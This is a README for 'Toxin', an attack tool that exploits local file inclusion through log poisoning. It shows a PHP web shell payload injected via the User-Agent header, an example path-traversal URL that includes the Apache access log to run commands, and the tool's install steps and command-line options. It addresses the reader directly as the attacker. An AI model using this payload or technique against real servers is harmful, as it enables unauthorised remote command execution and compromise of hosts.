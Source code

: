 # Toxin

Toxin is an LFI (Local File Inclusion)/Log Pollution Exploitation Tool.

## Introduction

Toxin exploits a particular (and yet also common)type of 
Local File Inclusion (LFI) vulnerability wherein the attacker
is able to take advantage of PHP's `register_globals` setting. 

In this attack scenario, the attacker would craft a custom 
`User-Agent` header which would contain arbitrary PHP code
that would register a new global variable to the environment
like so:

```php
<?php system($_GET['cmd']); ?>
```

With the new, malicious global variable registered, we can add it 
to a query string within a URL containing a file on the target host
which is vulnerable to inclusion, and then use the file along with
the query string to execute arbitrary system-level commands, like so:

`http://target.tld/info.php?page=../../../../../var/log/apache/access.log&cmd=whoami`

There are a number of common files which typically fall prey to this attack, 
Toxin does not attempt to fuzz for those files, but instead expects you, 
the attacker, to have prior knowledge of your target.

## Installation

`$ python setup.py install`

## Usage

```bash
  ______           _
 /_  __/___  _  __(_)___
  / / / __ \| |/_/ / __ \
 / / / /_/ />  </ / / / /
/_/  \____/_/|_/_/_/ /_/


Usage: toxin [OPTIONS]

  Toxin: Local File Inclusion Exploitation Tool

Options:
  -u, --url TEXT        URL to query
  -p, --parameter TEXT  Parameter to inject into User-Agent header
                        (Default: 'cmd')
  -c, --command TEXT    Command to Run
  -m, --mode TEXT       Mode (Inject or Exploit)
  -g, --paged           Paged Output
  --version             Show the version and exit.
  --help                Show this message and exit.
  -h                    Show this message and exit.
```